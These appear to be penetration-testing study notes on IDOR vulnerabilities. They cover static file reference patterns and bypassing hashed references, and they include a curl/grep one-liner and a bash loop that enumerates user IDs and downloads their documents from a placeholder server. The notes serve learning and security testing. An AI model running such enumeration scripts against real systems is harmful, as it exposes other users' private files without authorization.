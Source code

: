 ### Compare User Roles

For more advanced IDOR attacks, use multiple registered users and compare their HTTP requests and object references.

## Mass IDOR Enumeration

### Insecure Paramters

Assume we know that a user has uid=1. If we see a folder that contains:
```
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
```
We might conclude that there is a pattern \[uid\]\_month\_year.pdf that allows us to search for other files.

This is called a **static file IDOR**. 

We might also try changing the uid to see if that gives us other documents. It is common for web apps to suffer from IDOR vulnerabilities.

Once we see this kind of pattern, we can write a bash script to get all of the files. First we find the html for the links on the page:
```html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```
Then we curl the page and get the portion of the returned html that lists the documents:
```shell-session
user@computer $ curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"

/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf
```
And write a bash script to wget all of them:
```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

## Bypassing Encoded References

Often we'll see a POST request to a download.php page. The file specifics may look like:
```php
contract=cdd96d3cc73d1dbdaffa03cc6cd7339b
```
The reference to the file object is not sent in cleartext in an attempt to protect it. This one is looks like an md5 hash. Hashes are one-way function so we cannot decode them to get their original values, but we can try and hash various values until we get a match.
